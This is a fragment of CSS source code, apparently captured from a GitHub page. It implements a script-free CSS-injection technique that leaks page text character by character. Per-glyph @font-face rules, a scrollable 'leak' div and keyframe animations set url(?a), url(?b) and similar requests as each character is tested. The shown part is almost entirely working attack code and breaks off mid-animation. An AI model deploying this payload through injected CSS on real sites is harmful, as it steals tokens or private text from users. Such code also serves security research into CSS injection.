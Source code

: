 ```css
  font-style: monospace;
}
@font-face {
  font-family: has_9;
  src: local("Comic Sans MS");
  unicode-range: U+39;
  font-style: monospace;
}
@font-face {
  font-family: rest;
  src: local("Courier New");
  font-style: monospace;
  unicode-range: U+0-10FFFF;
}

div.leak {
  overflow-y: auto; /* leak channel */
  overflow-x: hidden; /* remove false positives */
  height: 40px; /* comic sans capitals exceed this height */
  font-size: 0px; /* make suffix invisible */
  letter-spacing: 0px; /* separation */
  word-break: break-all; /* small width split words in lines */
  font-family: rest; /* default */
  background: grey; /* default */
  width: 0px; /* initial value */
  animation: loop step-end 200s 0s, trychar step-end 2s 0s; /* animations: trychar duration must be 1/100th of loop duration */
  animation-iteration-count: 1, infinite; /* single width iteration, repeat trychar one per width increase (or infinite) */
}

div.leak::first-line {
  font-size: 30px; /* prefix is visible in first line */
  text-transform: uppercase; /* only capital letters leak */
}

/* iterate over all chars */
@keyframes trychar {
  0% {
    font-family: rest;
  } /* delay for width change */
  5% {
    font-family: has_A, rest;
    --leak: url(?a);
  }
  6% {
    font-family: rest;
  }
  10% {
    font-family: has_B, rest;
    --leak: url(?b);
  }
  11% {
    font-family: rest;
  }
  15% {
    font-family: has_C, rest;
    --leak: url(?c);
  }
  16% {
    font-family: rest;
  }
  20% {
```